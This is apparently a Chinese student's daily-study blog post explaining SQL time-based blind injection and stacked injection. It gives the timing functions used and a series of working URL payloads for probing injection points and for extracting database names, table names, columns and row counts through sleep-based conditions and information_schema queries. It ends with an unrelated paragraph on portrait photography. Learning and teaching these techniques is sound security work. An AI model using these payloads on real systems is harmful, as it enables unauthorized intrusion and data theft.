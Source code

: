 title: SQL时间注入&堆叠注入
author: liuGuobin
tags:
  - 日报
categories:
  - 日报
date: 2023-03-12 23:11:00
---
### SQL时间注入
#### 表现
无论输入什么都会返回正常的处理信息或者页面无回显
能依靠自身感知到页面的延时情况

#### 原理
前端在将数据传给后台时，设置了一个if语句
当条件为真时执行sleep语句，条件为假时无执行语句

#### 思路
时间注入又称延时注入，与布尔盲注同属于盲注无回显的类型。
如果想要注入，必不可少的是得看得到效果。
那么有没有什么方法能直接或是间接地显示或猜解出数据呢？
当然有！前面就已近提到过函数这个东西了。
函数与and结合时，如果传入的参数正确就会触发函数，否则不执行。
此时将函数与查询语句结合后再与传入的参数结合就能达到最终效果了。

#### 相关函数讲解
```
if(a,b,c)                如果a是TRUE(a!=0或a!=NULL)，则返回b，否则返回c
sleep(x)                 延时x秒
if(a,b,c)                a为真，执行b；否则执行c
benchmark(a,b)           a为操作次数，b为执行的函数
                         原理是通过多次操作，让极短暂的延时增加到能识别的程度
                         后面几个都是这种思想
笛卡尔积                  别问，老子离散数学还没学到这！
get_lock(key, timeout)   key(最好是数字)指定名称获取锁，timeout指定锁定时间
                         前提条件是数据库连接是长连接
正则bug                  利用大量正则计算延长时间，实现延时

除此之外还有
case … when … then … else … end
```

#### 开始注入
##### 判断是否存在注入点及注入的类型
```
?id=1
?id=5
?id=5'
?id=5"
?id=5 and 1=1
?id=5 and 1=2
```
如果页面显示结果一样，那就说明可能是延时注入

##### 获取库长度
```
?id=1 and if(length(database())<10,sleep(5),1)
?id=1 and if(length(database())=4,sleep(5),1)
```
如果第一个没有延时，但是第二个有5秒延时则表名数据库名长度为4

##### 获取库名、表名、字段名及字段内容
```
爆数据库名
?id=1 and if(ascii(substr(database(),1,1))=106,sleep(5),1)
测试表数量
?id=1 and (select count(table_name) from information_schema.tables where table_schema = database())<5
测试第一张表长度
?id=1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))<10
测试表名
?id=1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<100
测试表中字段数量
?id=1 and (select count(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273)=5
测试字段内容
?id=1 and (select count(name) from users)=4
```
这时候你会发现这就是布尔盲注的做法
一个一个跑咯，懒得细细讲解了

### SQL堆叠注入
#### 表现
跟联合查询注入差不多，两个方式相应的真假值都有不同的回显。

#### 原理
在SQL中，分号表示一条 sql 语句的结束。
在分号后继续构造下一条语句，就会把两条语句一起执行。
**联合注入**也是将两条语句合并在一起，两者之间有什么区别么？
union执行的语句类型是有限的，而堆叠注入可以执行任意语句。

#### 开始注入
##### 检查注入点及回显位
```
?id=1'
?id=1' and 1=1--+
?id=1' and 1=2--+
```

##### 获取数据
方法前面都有讲，回去抄payload就行了
加入分号，再接一个SQL语句看是否能显出结果。

### 每日一句
今天不讲一句，讲一段话。

**人像摄影，更强调人物本身的特点，仿佛这个人就在你面前一样。
但是每个人不同的身高决定了站立时必定不能拍出完美的图片。
因此，拍人像时，最简单的一个办法就是用跟他们同样的视角拍摄，
这样才能看见他们更多的表情、神态和动作。
你才能看到他们的世界，画面才会更有吸引力。**